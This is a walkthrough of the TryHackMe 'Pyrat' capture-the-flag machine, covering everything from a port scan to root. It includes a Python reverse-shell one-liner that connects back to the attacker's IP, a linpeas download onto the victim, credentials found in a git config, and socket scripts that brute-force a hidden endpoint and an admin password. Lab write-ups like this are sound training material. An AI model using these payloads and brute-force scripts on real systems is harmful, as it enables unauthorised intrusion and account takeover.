




<p align="center">
  
</p>

[Pyrat](https://tryhackme.com/r/room/pyrat) machine on [TryHackMe](https://tryhackme.com/) is a boot2root machine which exposes an HTTP server on a concrete port
By crafting a specific payload, we gain initial shell access on the target machine. While exploring the file structure, we find a repository with credentials. Digging deeper reveals important details about an older application version. Using custom scripts and brute-forcing techniques, we eventually discover a critical endpoint. From there, we retrieve an admin password, ultimately granting us root access to the system.


## Info

|------------------|----------------------------|
| **Name**         | Pyrat                      |
| **OS**           | Linux                      |
| **Difficulty**   | Easy   🟢                  |

## Port scanning

```bash
┌──(root㉿kali)-[~]
└─# nmap  -sC -sV 10.10.43.86 -p- 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-12 19:25 UTC
Nmap scan report for ip-10-10-43-86.eu-west-1.compute.internal (10.10.43.86)
Host is up (0.00089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 445f26674b4a919b597a9559c84c2e04 (RSA)
|   256 0a4bb9b177d24879fc2f8a3d643aad94 (ECDSA)
|_  256 d33b97ea54bc414d0339f68fadb6a0fb (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
```

## Initial foothold

From port scan we see there is a ``SimpleHTTP`` server on port 8000. When opening it on a browser it just shows a blank page with a text saying 'Try a more basic connection!'



What is a more basic connection? Maybe if we try netcat we can get something out of that?



Success! By testing various inputs against the server, we can deduce that it executes any Python code we send to it.
With this knowledge, we can attempt to craft a reverse shell using Python.

```bash
┌──(root㉿kali)-[~]
└─# nc 10.10.43.86 8000
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.143.15",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")   
```

```bash
┌──(root㉿kali)-[~]
└─# nc -vnlp 4444
listening on [any] 4444 ...
connect to [10.10.143.15] from (UNKNOWN) [10.10.43.86] 47294
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c "import pty;pty.spawn('/bin/bash');"
python3 -c "import pty;pty.spawn('/bin/bash');"
www-data@Pyrat:~$ export TERM=xterm
export TERM=xterm
www-data@Pyrat:~$ 

```

We've established a stable reverse shell and gained an initial foothold on the machine! However, we're currently just a low-privilege user, so we need to keep searching for another low-hanging fruit.

After spending some time searching manually, I decided to run linpeas. First, we transfer it to the victim machine.

```bash title="Attacker"
┌──(root㉿kali)-[~]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
--2024-11-12 19:53:11--  https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
...
HTTP request sent, awaiting response... 200 OK
Length: 827739 (808K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh                       100%[=======================================================>] 808.34K  --.-KB/s    in 0.008s  

2024-11-12 19:53:11 (101 MB/s) - ‘linpeas.sh’ saved [827739/827739]

                                                                                                                                 
┌──(root㉿kali)-[~]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.43.86 - - [12/Nov/2024 19:53:52] "GET /linpeas.sh HTTP/1.1" 200 -
```

```bash title="Victim"
www-data@Pyrat:~$ cd /tmp
cd /tmp
www-data@Pyrat:/tmp$ wget http://10.10.143.15:8000/linpeas.sh
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 808.34K  --.-KB/s    in 0.004s  

2024-11-12 19:53:52 (214 MB/s) - ‘linpeas.sh’ saved [827739/827739]

www-data@Pyrat:/tmp$ chmod u+x linpeas.sh
chmod u+x linpeas.sh

```
While reviewing the results from linpeas, we notice a user named `think`.



But also a Git directory under /opt/dev catches my attention:



Upon checking the .git contents, we find a ``config`` file that, to my surprise, reveals a password for the ``think`` user

```bash
www-data@Pyrat:/opt/dev/.git$ ls -la
ls -la
total 52
drwxrwxr-x 8 think think 4096 Jun 21  2023 .
drwxrwxr-x 3 think think 4096 Jun 21  2023 ..
drwxrwxr-x 2 think think 4096 Jun 21  2023 branches
-rw-rw-r-- 1 think think   21 Jun 21  2023 COMMIT_EDITMSG
-rw-rw-r-- 1 think think  296 Jun 21  2023 config
-rw-rw-r-- 1 think think   73 Jun 21  2023 description
-rw-rw-r-- 1 think think   23 Jun 21  2023 HEAD
drwxrwxr-x 2 think think 4096 Jun 21  2023 hooks
-rw-rw-r-- 1 think think  145 Jun 21  2023 index
drwxrwxr-x 2 think think 4096 Jun 21  2023 info
drwxrwxr-x 3 think think 4096 Jun 21  2023 logs
drwxrwxr-x 7 think think 4096 Jun 21  2023 objects
drwxrwxr-x 4 think think 4096 Jun 21  2023 refs
www-data@Pyrat:/opt/dev/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = ****[REDACTED]****

```

So... will it work for switching to `think` user? Let's try if that user has a reused password.

```bash
www-data@Pyrat:/opt/dev/.git$ su - think
su - think
Password:

think@Pyrat:~$ whoami
whoami
think
think@Pyrat:~$ cat user.txt
cat user.txt
9******************************5
```

Yes it worked! Now we are into `think` user!

## Privilege escalation

From this point, I couldn’t find a way forward until I decided to revisit the repository and check its status.
Then I saw deleted file `pyrat.py.old`

```bash
think@Pyrat:/opt/dev$ git status
git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use "git add" and/or "git commit -a")
```

It is possible to restore file which are kept on this status, so did that and checked code on file:

```bash
think@Pyrat:/opt/dev$ git restore pyrat.py.old
git restore pyrat.py.old

think@Pyrat:/opt/dev$ cat pyrat.py.old
cat pyrat.py.old
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e
...............................................
```

According to the code above, if an unknown endpoint is provided in ``data``, it performs an action on ``get_this_endpoint``. 
If ``shell`` is provided, it simply opens a shell; otherwise, it executes the given Python code:

```bash
┌──(root㉿kali)-[~]
└─# nc 10.10.43.86 8000
shell
$ whoami
whoami
www-data
^C
                                                                                                                                 
┌──(root㉿kali)-[~]
└─# nc 10.10.43.86 8000
print(1+1)
2
```

Now things get a bit trickier... we need to try guessing the endpoint.
After observing that sending unkown data to the endpoint gives `X is not defined` or empty response we'll code and use the following Python script to brute-force and find something different returned on the response.

```python title="find_endpoint.py"
#!/usr/bin/env python3

import socket
import time
import sys

def create_socket_connection(host, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((host, port))
        return sock
    except socket.error as e:
        print(f"Error creating socket connection: {e}")
        return None

def brute_force(sock, wordlist):
	for word in wordlist:
		print("Trying " + word + "...")
		sock.send(word.encode())
		data = sock.recv(512).decode("utf-8")
		if len(data.strip()) > 0 and not "is not defined" in data:
			print("==========> FOUND! -> " + word)
		
		sock.close()
		time.sleep(1)
		sock = create_socket_connection(host, port)
	
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Usage: python find_endpoint.py <HOST> <PORT> <WORDLIST_PATH>")
        sys.exit(1)
    
    host = sys.argv[1]
    port = int(sys.argv[2])
    wordlist_path = sys.argv[3]
    
    wordlist = open(wordlist_path, 'r').read().splitlines()
    sock = create_socket_connection(host, port)
    brute_force(sock, wordlist)
```

Executing the script will reveal `admin` endpoint

```bash
┌──(root㉿kali)-[~/Desktop]
└─# python3 find_endpoint.py 10.10.43.86 8000 "/usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt"
Trying 0...
...
Trying admin...
==========> FOUND! -> admin
Trying admins...
...
Trying shell...
==========> FOUND! -> shell
Trying show...
Trying sign...
```

Trying the admin endpoint prompts for a password—one that we don’t know.

```bash
┌──(root㉿kali)-[~/Desktop]
└─# nc 10.10.43.86 8000
admin
Password:

```

Therefore, we need to adjust the previous Python script and attempt to fuzz for valid password(and hope) that it works.
After some trial and error, I noticed that after every three attempts, we need to send the admin endpoint again to continue without creating a new socket each time. I incorporated this into the script accordingly

```python title="find_endpoint.py"
#!/usr/bin/env python3

import socket
import time
import sys

def create_socket_connection(host, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((host, port))
        return sock
    except socket.error as e:
        print(f"Error creating socket connection: {e}")
        return None

def brute_force(sock, wordlist):
	retries = 0
	sock.send("admin".encode())
	time.sleep(1)
	for word in wordlist:
		sock.send(word.encode())
		data = sock.recv(512).decode("utf-8")
		print("Trying " + word + ".... Got => " + data.replace("\n", ''))
		retries = retries + 1
		if retries == 3:
			sock.send("admin".encode())
			retries = 0
		time.sleep(1)
		
	sock.close()
	
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Usage: python find_endpoint.py <HOST> <PORT> <WORDLIST_PATH>")
        sys.exit(1)
    
    host = sys.argv[1]
    port = int(sys.argv[2])
    wordlist_path = sys.argv[3]
    
    wordlist = open(wordlist_path, 'r').read().splitlines()
    sock = create_socket_connection(host, port)
    brute_force(sock, wordlist)
```

```bash
┌──(root㉿kali)-[~/Desktop]
└─# python3 find_endpoint.py 10.10.43.86 8000 "/usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt"
Trying 123456.... Got => Password:
Trying password.... Got => Password:
Trying 12345678.... Got => Password:
Trying 1234.... Got => Password:
Trying 12345.... Got => Password:
Trying dragon.... Got => Password:
Trying qwerty.... Got => Password:
Trying 696969.... Got => Password:
Trying mustang.... Got => Password:
Trying letmein.... Got => Password:
Trying baseball.... Got => Password:
Trying master.... Got => Password:
Trying michael.... Got => Password:
Trying football.... Got => Password:
Trying shadow.... Got => Password:
Trying monkey.... Got => Password:
Trying [REDACTED].... Got => Password:
Trying pass.... Got => Welcome Admin!!! Type "shell" to beginPassword:
Trying fuckme.... Got => Password:
Trying 6969.... Got => Password:

```

It appears that a successful password attempt triggers a Welcome admin message on the following try, confirming the previous password was correct.

Manually inputting the admin endpoint with the discovered password grants us a root shell, allowing us to retrieve the flag

````bash
┌──(root㉿kali)-[~/Desktop]
└─# nc 10.10.43.86 8000                                                                                        
admin
Password:
[****REDACTED****]
Welcome Admin!!! Type "shell" to begin
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
b******************************1
# 
```
